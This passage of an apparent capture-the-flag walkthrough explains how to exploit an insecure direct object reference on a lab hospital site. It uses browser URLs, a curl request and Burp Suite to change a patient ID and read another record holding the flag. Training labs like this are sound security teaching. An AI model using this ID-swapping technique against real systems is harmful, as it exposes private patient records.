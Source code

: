 ### Step 3: Exploiting the IDOR

**Method 1: Direct URL Access**

Try accessing patient 999 directly in the browser:

```
https://hospital.cyberlab.local/patients/999
```

Or via API:

```
https://hospital.cyberlab.local/api/patients/999
```

**Method 2: Using curl**

```bash
curl https://hospital.cyberlab.local/api/patients/999
```

**Method 3: Using Burp Suite**

1. Intercept a legitimate patient record request
2. Change the patient ID to 999
3. Forward the request
4. View the response

### Step 4: Finding the Flag

Once you access patient 999's record, look for the flag in the **medical notes** field:

```json
{
  "id": 999,
  "name": "CTF Test Patient",
  "age": 45,
  "diagnosis": "Routine Checkup",
  "notes": "Medical History: Patient reports normal health. CTF Flag: CYBERLABFLAG{...}"
}
```

Or in HTML format:

```html
<div class="patient-record">
  <h2>Patient: CTF Test Patient</h2>
  <p><strong>Age:</strong> 45</p>
  <p><strong>Diagnosis:</strong> Routine Checkup</p>
  <p><strong>Notes:</strong> Medical History: Patient reports normal health.
     CTF Flag: CYBERLABFLAG{...}</p>
</div>
```

### Step 5: Extract and Submit Flag

1. Copy the flag: `CYBERLABFLAG{...}`
2. Submit it in CTFd
3. Get 100 points! 🎉

---